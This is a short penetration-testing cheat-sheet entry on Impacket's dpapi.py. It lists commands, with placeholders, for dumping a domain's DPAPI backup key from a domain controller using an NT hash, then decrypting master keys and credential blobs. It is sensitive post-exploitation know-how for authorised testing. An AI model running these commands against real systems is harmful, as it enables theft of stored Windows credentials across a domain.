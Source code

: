 # dpapi (imp)

% impacket-secrets, dpapi


## desc
```
to write
```

## dump the domain backup key
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```bash
dpapi.py backupkeys --export -hashes <nt_hash>  -t  <domain_fqdn>/<user|Administrator>@<dc_ip>
```

## identify master key Guid
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```bash
dpapi.py unprotect -file <blob_file>
```

## decrypt master key (creds)
```bash
dpapi.py masterkey -file <master_key_file> -password <password> -sid <user_sid>
```

## decrypt blob (creds)
```bash
dpapi.py unprotect -file <blob_file> -key <decrypted_master_key>
```